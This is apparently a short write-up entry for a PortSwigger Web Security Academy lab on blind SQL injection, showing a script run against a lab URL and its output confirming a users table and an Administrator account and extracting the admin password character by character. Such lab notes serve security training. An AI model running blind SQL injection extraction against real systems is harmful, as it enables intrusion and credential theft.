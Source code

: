#### SQL Labs - PortSwigger Academy

*Blind SQL injection with conditional response lab* 
```bash
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwx
```
